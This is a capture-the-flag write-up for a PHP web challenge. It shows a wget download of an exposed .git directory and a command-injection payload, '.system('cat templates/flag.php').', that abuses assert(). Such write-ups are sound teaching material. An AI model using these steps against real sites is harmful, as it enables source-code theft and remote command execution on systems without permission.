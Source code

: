 # mfw

![Screenshot from 2021-07-25 09-33-39](https://user-images.githubusercontent.com/87865134/126885810-05db8c07-e99c-420d-bf93-558c6a589a71.png)

## - Hint:
  - web use: *git*, *php*, *bootstrap* -> maybe git disclosure
  - *?page=flag* -> flag may be in here

![Screenshot from 2021-07-25 09-33-50](https://user-images.githubusercontent.com/87865134/126885853-3bce7c1f-9960-4806-8559-5d9fe039d969.png)

![Screenshot from 2021-07-25 09-34-14](https://user-images.githubusercontent.com/87865134/126885855-cc5362ce-14f4-4f1b-8585-18436eb77820.png)

## 1. Check git disclosure
  - `http://111.200.241.244:64683/.git/`  -> Git Disclosure   <vr/>
  ![Screenshot from 2021-07-25 09-41-39](https://user-images.githubusercontent.com/87865134/126885895-1f46e63d-2207-4ad7-9330-28bab05b7850.png)

## 2. Download git snapshot to view source code
  - download: `wget -r http://111.200.241.244:64683/.git/` 
  - after download, check git status:  
    `git status`  
    ![Screenshot from 2021-07-25 09-47-07](https://user-images.githubusercontent.com/87865134/126885993-5e0c3d6b-0e58-411c-9aae-a27c09312884.png)

  - some files are deleted -> restore file:  
     ```
     git restore index.php
     git restore templates
     ```
## 3. View source code
  - **in file flag.php:**  
   ![Screenshot from 2021-07-25 09-49-12](https://user-images.githubusercontent.com/87865134/126886044-9b28b33e-351e-4ce8-b0ac-dcfb33e67784.png)  
    - > Flag maybe here
  
  - **in file index.php:**  
  ![Screenshot from 2021-07-25 09-49-22](https://user-images.githubusercontent.com/87865134/126886041-aa6138af-6cb7-458a-bcd3-153b2c754436.png)  
    - `assert(mixed $assertion, string $description = ?): bool`
      - > -> Command injection

## 4. Command Injection
  - payload: `'.system('cat templates/flag.php').'`  
  ![Screenshot from 2021-07-25 09-57-12](https://user-images.githubusercontent.com/87865134/126886172-af5e8afc-3fe3-4754-b7bf-d8d1fba82e3b.png)

   
## - Decription:
  - > category: 
    - Git disclosure
    - Command Injection

## - Reference:
  - [assert()](https://www.php.net/manual/en/function.assert.php)
